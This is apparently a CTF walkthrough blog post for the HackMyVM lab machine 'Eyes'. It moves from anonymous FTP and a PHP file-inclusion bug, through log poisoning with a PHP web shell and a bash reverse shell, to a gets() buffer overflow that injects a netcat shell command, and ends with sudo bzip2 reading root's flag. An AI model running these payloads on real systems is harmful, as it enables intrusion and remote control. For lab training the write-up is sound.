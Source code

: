 ```yaml
---
layout: post
author: maxin
title:  "Eyes"
date:   2022-01-01 10:39:32 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Eyes)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 20:14:26 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.217
Nmap scan report for 192.168.0.217
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             125 Apr 04  2021 index.php
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b1:12:94:12:60:67:e1:0b:45:c1:8d:e9:21:13:bc:51 (RSA)
|   256 b7:7f:25:94:d6:4e:88:56:8a:22:34:16:c2:de:ba:02 (ECDSA)
|_  256 30:c7:a2:90:39:5d:24:13:bf:aa:ba:4c:a7:f4:2f:bb (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 20:14:35 2021 -- 1 IP address (1 host up) scanned in 8.99 seconds
{% endhighlight  %}

# FTP

Connect to FTP using the default creds `anonymous` and blank password

Get index.php, we can see it’s a LFI. 

{% highlight php  %}
<?php
$file = $_GET['fil3'];
if(isset($file)) {
	include($file);
} else {
	print("Here my eyes...");
}
?>
<!--Monica's eyes-->
{% endhighlight  %}

# Log Poisoning

Testing the LFI, we have access to vsftpd logs `/index.php?fil3=/var/log/vsftpd.log`

We can poison this log with a malicious payload and get RCE 

## LFI → RCE

Go back to FTP

![Untitled](/images/eyes/ftp.png)

{% highlight php  %}
<?php $cmd=$_GET['cmd'];system($cmd); ?>
{% endhighlight  %}

Go back to webserver and use the `cmd` parameter to do a reverse shell

## Reverse shell

{% highlight bash  %}
http://$IP/index.php?fil3=/var/log/vsftpd.log&cmd=bash -c 'bash -i >& /dev/tcp/$KaliIP/$PORT 0>&1'
{% endhighlight  %}

`Note:` If you having trouble with reverse shell, send this payload above to burp and encode with URL-Encode

# User

On `/opt` directory have a C script

{% highlight c  %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <sys/types.h>

int main(void) {
 char command[100];
 char ls[50]="/usr/bin/ls";
 char name[50];
 printf("Enter your name:");
 gets(name);
 strcpy(command,ls);
 setuid(1000);
 setgid(1000);
 printf("Hi %s, Im executing ls\n Output:\n",name);
 system(command);
}
{% endhighlight  %}

This code it’s vulnerable to Buffer Overflow. Buffer the `name` variable, we can overwrite the `ls`variable and inject whatever command we want.

{% highlight bash  %}
python3 -c 'print("a"*64 + "/usr/bin/nc $KaliIP 1000 -e /bin/bash")' | ./ls
{% endhighlight  %}

Sending 64 characters to `name` we can start to overwrite `ls` variable and send nc command to our machine 

# Root

{% highlight bash  %}
sudo -l

User monica may run the following commands on eyes:
    (ALL) NOPASSWD: /usr/bin/bzip2
{% endhighlight  %}

{% highlight bash  %}
sudo bzip2 -c /root/root.txt | bzip2 -d
{% endhighlight  %}
